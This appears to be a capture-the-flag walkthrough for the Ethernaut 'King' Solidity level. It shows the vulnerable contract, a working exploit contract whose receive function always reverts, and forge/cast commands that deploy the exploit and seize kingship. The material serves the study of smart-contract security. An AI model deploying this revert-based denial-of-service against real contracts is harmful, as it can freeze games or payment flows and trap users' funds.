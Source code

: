 ## King Level Outline

**Difficulty : 6/10**

When you submit the instance back to the level, the level is going to reclaim kingship. You will beat the level if you can avoid such a self proclamation.

```solidity  
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract King {

  address payable king;
  uint public prize;
  address payable public owner;

  constructor() public payable {
    owner = msg.sender;  
    king = msg.sender;
    prize = msg.value;
  }

  receive() external payable {
    require(msg.value >= prize || msg.sender == owner);
    king.transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }

  function _king() public view returns (address payable) {
    return king;
  }
}
```

[Link to level on Ethernaut](https://ethernaut.openzeppelin.com/level/0x43BA674B4fbb8B157b7441C2187bCdD2cdF84FD5)

## Solution
The contract espects to be interacting with an EOA but we can force a revert and keep the crown if we make a malicious contract the king.

To make sure that we keep the crown when someone tries to claim it. We create a malicious fallback function in our contract which will revert after receiving ETH effectively keeping our malicious contract as the King.

### Walkthrough

##### 1. Create a new [forge project](https://book.getfoundry.sh/projects/creating-a-new-project.html) with the following contract in `src` 
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

contract ImposterKing {
    address king;

    constructor(address _king) payable {
        king = _king;
    }

    function claimCrown() public payable {
        payable(king).call{value: msg.value}("");
    }

    receive() external payable {
        revert("I will keep the crown :)");
    }
}
```

##### 2. Deploy our new contract
```console
forge create src/Contract.sol:ImposterKing --constructor-args $LEVEL_ADDRESS --private-key  $PRIVATE_KEY
```

##### 3. Finding the current value of prize to see how much we need to overthrow the current king
```console
cast call $LEVEL_ADDRESS "prize()" | cast --to-dec
```
output
```console
1000000000000000
```
> take note that this is the value of prize in wei, meaning that we need to send more than 1000000000000000wei to become the new king

##### 4. Call the "claimCrown()" function on our newly deployed contract along with some eth
```console
cast send $DEPLOYED_ADDRESS "claimCrown()" --value 1000000000000001wei --gas 80000 --private-key=$PRIVATE_KEY 
```
> Replace $DEPLOYED_ADDRESS with the address of your deployed contract


---

##### [:arrow_left: Back To Main Menu](../README.md)
